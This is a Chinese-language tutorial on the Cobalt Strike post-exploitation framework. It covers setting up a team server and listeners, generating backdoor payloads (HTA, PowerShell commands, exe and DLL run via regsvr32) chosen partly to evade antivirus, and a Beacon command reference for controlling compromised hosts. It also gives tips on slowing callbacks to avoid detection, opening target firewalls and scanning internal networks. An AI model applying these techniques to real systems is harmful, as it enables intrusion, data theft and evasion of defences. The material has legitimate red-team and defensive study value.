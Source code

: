 # Cobalt Strike

- [Cobaltstrike系列教程](https://blog.csdn.net/qq_26091745/article/details/98101150)
- [Cobalt Strike系列教程](https://www.cnblogs.com/ichunqiu/p/11950153.html)
- [cobalt strike 快速上手 [ 一 ]](https://www.freebuf.com/column/149236.html)
- [Cobalt_Strike_wiki](https://github.com/aleenzz/Cobalt_Strike_wiki/blob/master/2-%E7%AC%AC%E4%B8%89%E8%8A%82%5B%E5%88%A9%E7%94%A8%E8%84%9A%E6%9C%AC%E5%8A%A0%E8%BD%BDshellcode%5D.md)


一款非常优秀的后渗透平台,本人原来使用的是 msf 但是据说这个图形化好用一点。比较适合团队间协同作战。起个团队服务端就可以在日志中唠嗑...

## 快速搭建

在 Cobalt Strike 中，主要是为了方便一个渗透团队内部能够及时共享所有成员的渗透信息,加强成员间的交流协作,提高渗透效率。正常情况下是需要起一个团队服务器的。建议在 Linux 环境下开启团队服务器。

```bash
# ./teamserver 团队服务器ip 设置一个团队服务器密码[别人要用这个密码才能连进来] 配置文件[一般默认即可] [YYYY-MM-DD]

# ./teamserver 192.168.1.1 123456
```

![](img/1.png)


**客户端 cobaltstrike**

为了更好的说明效果,此处就分别模拟两个不同的客户端同时登陆到同一台团队服务器中,首先,先在本机运行客户端尝试登陆到团队器,客户端启动以后会提示你输入团队服务器的ip,端口和密码,用户名可随意.

```
./cobaltstrike
```

![](img/2.png)

输入你们团队设置的密码即可 名称不要重复即可

![](img/3.png)


### 开启 Listner(监听器)

其实,监听器的作用很简单,主要是为了接受payload回传的各类数据,跟 `msf` 中`handler`的作用基本是一致的

```
->点击左上角的Cobalt Strike菜单
  -> 选中Listeners
    -> 接着点击Add按钮会自动跳出监听器的配置框
      -> 设置好端口ip [ 实际中最好用域名(走dns隧道) ]和payload类型即可创建,之后,团队服务器会一直监听该端口等待beacon shell回连的数据
```

![](img/5.png)

> 选择接收的payload

目前我是用的是 `Cobaltstrike4.1` 版本，其中内置了8个 Listener

![](img/4.png)

- `beacon`为cs内置监听器,也就是说,当我们在目标系统成功执行payload以后,会弹回一个beacon的shell给cs

- `foreign`主要是提供给外部使用的一些监听器,`比如你想利用cs派生一个meterpreter或者armitage的shell回来`,来继续后面的内网渗透,这时就选择使用外部监听器.

- 至于如何实现Cobaltstrike与MSF和Armitage的联动，我们日后再讲。

### Cobaltstrike生成后门

**生成payload**
![](img/6.png)

- Html Application
  - 首先,创建一个hta的payload,这里的payload暂时只支持三种可执行格式,exe,powershell和vba(宏)

- Payload Generator
  - 该模块可以生成n中语言的后门 Payload，包括`C,C#,Python,Java,Perl,Powershell脚本，Powershell命令，Ruby,Raw，免杀框架Veli中的shellcode`等等
  - 在渗透Windows主机过程中，我用的比较多的就是Powershell和Powershell Command，主要是因为其方便易用，且可以逃避一下杀毒软件（AV）的查杀。
  - 以Powershell Command为例，生成的payload为一串命令，只要在主机上执行这一串命令（主机需安装Powershell），cs即可收到主机的beacon
  - ![](img/7.png)
- Windows Excutable/Windows Excutable(s)
  - Windows Excutable生成的后门是Windows可执行文件，如exe，DLL.
  - exe文件运行后，CS即可收到目标主机的会话。

  - dll regsvr32 C:\xxx.dll
  - 等上线



**钓鱼使用**

不咋用，咕。

### Beacon

ok，此时相信你已经搞到了一个beacon的shell
假设我们拿到的是一个普通用户权限.
Beacon可使用命令如下:

```
help     查看beacon shell所有内置命令帮助,如果想查看指定命令的用法,可以这样,eg: help checkin
note     给当前目录机器起个名字, eg: note beacon-shell
cd	 在目标系统中切换目录,注意在win系统中切换目录要用双反斜杠,或者直接用'/' eg: cd c:\\
mkdir 	 新建目录, eg: mkdir d:\\beacon
rm 	 删除文件或目录, eg: rm d:\\beacon
upload 	 上传文件到目标系统中
download 从目标系统下载指定文件,eg: download C:\\Users\\win7cn\\Desktop\\putty.exe
cancel	 取消下载任务,比如,一个文件如果特别大,下载可能会非常耗时,假如中途你不想继续下了,就可以用这个取消一下
shell	 在目标系统中执行指定的cmd命令, eg: shell whoami
getuid 	 查看当前beacon 会话在目标系统中的用户权限,可能需要bypassuac或者提权
pwd	 查看当前在目录系统中的路径
ls	 列出当前目录下的所有文件和目录
drives	 列表出目标系统的所有分区[win中叫盘符]
ps	 查看目标系统当前的所有的进程列表
kill	 杀掉指定进程, eg: kill 4653
sleep 10 指定被控端休眠时间,默认60秒一次回传,让被控端每10秒来下载一次任务,实际中频率不宜过快,容易被发现,80左右一次即可
jobs	 列出所有的任务列表,有些任务执行时间可能稍微较长,此时就可以从任务列表中看到其所对应的具体任务id,针对性的清除
jobkill	 如果发现任务不知是何原因长时间没有执行或者异常,可尝试用此命令直接结束该任务, eg: jobkill 1345
clear	 清除beacon内部的任务队列
checkin	 强制让被控端回连一次
exit 	 终止当前beacon 会话
ctrl + k 清屏
```

其中最常用的是:
```
shell whoami 调用cmd/bash 去执行命令
```



**中转监听**

Windows Excutable带有生成出的是stageless版本（无状态Windows后门木马），下面简单说下这个无状态木马的使用方法。一般使用无状态木马的网络环境是这样的。

![](img/1.jpg)

在已经上线的主机上右击，中转-> listener -> 输入名字即可开启监听。

![](img/8.png)

![](img/9.png)

这里使用的 payload 需要是 Windows Excutable(s)

![](img/10.png)

选择目标监听器，添加到目标路径，生成payload 在目标机器上运行即可
![](img/11.png)

![](img/12.png)

需要注意的是如果开启了防火墙会产生一个Windows安全警报，因此最好提前用cmd添加一个防火墙放行规则或关闭防火墙，随后便可将无状态的木马上传到内网的其他机器运行后返回一个会话。

**利用cs灵活穿透目标内网**

首先对目标机器进行常规端口扫描,指定ip段,指定线程[切记实际中不要开的太高]

`portscan 192.168.1.0/24 1-6000 arp 10`









